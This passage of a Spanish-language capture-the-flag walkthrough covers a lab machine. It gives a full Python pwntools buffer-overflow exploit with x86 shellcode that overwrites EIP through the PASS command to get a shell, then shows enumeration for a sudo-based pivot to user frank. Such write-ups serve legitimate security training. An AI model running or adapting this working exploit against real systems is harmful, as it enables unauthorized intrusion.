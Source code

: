 1. Modificamos el script en python

    ```python
    #!/usr/bin/python3

    from pwn import *

    context(os='linux', arch='i386')

    # p = remote("127.0.0.1", 7411)
    p = remote("10.10.10.34", 7411)

    buf = b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
    buf += b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
    buf += b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
    buf += b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
    buf += b"\x89\xe3\x31\xc9\xcd\x80"


    before_eip = ("A" * 28).encode()
    EIP = p32(0xffffd140+32)
    after_eip = buf

    p.recvuntil("OK Ready. Send USER command.")
    p.sendline("USER admin")
    p.recvuntil("OK Send PASS command.")
    p.sendline("PASS ".encode() + before_eip + EIP + after_eip)

    p.interactive()
    ```

1. Lanzamos el script en python

    ```bash
    python3 exploit.py
    ```


Ya hemos ganado acceso al systema como el usuario **nobody** pero no podemos leer la flag y nos tenemos que convertir en el usuario frank.

### User pivoting {-}

```bash
id
sudo -l
```

Vemos que podemos lanzar el script `/opt/logreader/logreader.sh` como el usuario frank sin proporcionar contraseña.

```bash
cat /opt/logreader/logreader.sh
sudo -u frank /opt/logreader/logreader.sh
which strace
which ltrace
which checkproc
```
